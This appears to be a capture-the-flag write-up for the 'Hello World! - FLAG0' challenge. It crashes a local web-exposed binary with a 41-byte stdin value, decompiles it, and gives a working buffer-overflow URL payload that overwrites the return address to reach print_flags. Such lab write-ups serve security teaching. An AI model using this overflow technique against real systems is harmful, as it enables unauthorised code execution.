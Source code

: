 # Hello World! - FLAG0

## 0x00 Index

The home page is looks like the following.

![](./imgs/home.jpg)

And it will print out hello xyz when you send whatever via a get request.

[http://127.0.0.1/xxxxxxxxxx/?stdin=world][1]

![](./imgs/test.jpg)

[http://127.0.0.1/xxxxxxxxxx/?stdin=0123456789012345678901234567890123456789][3]

When make the std in 40 bytes long, some wried paddings are showing up.

![](./imgs/padding.jpg)

[http://127.0.0.1/xxxxxxxxxx/?stdin=01234567890123456789012345678901234567890][4]

When add one more byte, the program crushed and showed core dump.

![](./imgs/dump.jpg)

## 0x01 Decompile

It also has a [binary file](./vulnerable) availavle to download and analysis.

The binary file starts with something **ELF**. So may need to decompile it to take a look.

[snowman][2] is a pretty good decomplier for C/C++. Here I got the source [vulnerable.c](./vulnerable.c) here.

There is an important function just before pringing out the **FLAGS**.

```c
void print_flags() {
    int64_t rax1;
    int64_t rsi2;
    int64_t rdx3;
    void* rbp4;
    uint32_t eax5;
    unsigned char v6;
    int64_t rbp7;

    rax1 = fun_400550("FLAGS");
    fun_400560(rax1, rsi2, rdx3);
    fun_4005a0(0);
    rbp4 = reinterpret_cast<void*>(reinterpret_cast<int64_t>(__zero_stack_offset()) - 8 - 8 + 8 - 8 + 8 - 8 + 8 - 8);
    fun_400580(reinterpret_cast<int64_t>(rbp4) - 32, 0, 32);
    read_all_stdin(reinterpret_cast<int64_t>(rbp4) - 32, 0, 32);
    eax5 = v6;
    if (*reinterpret_cast<signed char*>(&eax5)) {
        fun_400570("Hello %s!\n", reinterpret_cast<int64_t>(rbp4) - 32, 32);
    } else {
        fun_400560("What is your name?", 0, 32);
    }
    goto rbp7;
}
```

So we need add up the padding to it goto print the **FLAGS** at 0406ee

[http://127.0.0.1/xxxxxxxxxx/?stdin=0123456789012345678901234567890123456789%ee%06%40%00%00%00%00%00][5]

And here we get the flag.

![](./imgs/flag.jpg)


[1]: http://127.0.0.1/xxxxxxxxxx/?stdin=world
[2]: https://github.com/yegord/snowman
[3]: http://127.0.0.1/xxxxxxxxxx/?stdin=0123456789012345678901234567890123456789
[4]: http://127.0.0.1/xxxxxxxxxx/?stdin=01234567890123456789012345678901234567890
[5]: http://127.0.0.1/xxxxxxxxxx/?stdin=0123456789012345678901234567890123456789%ee%06%40%00%00%00%00%00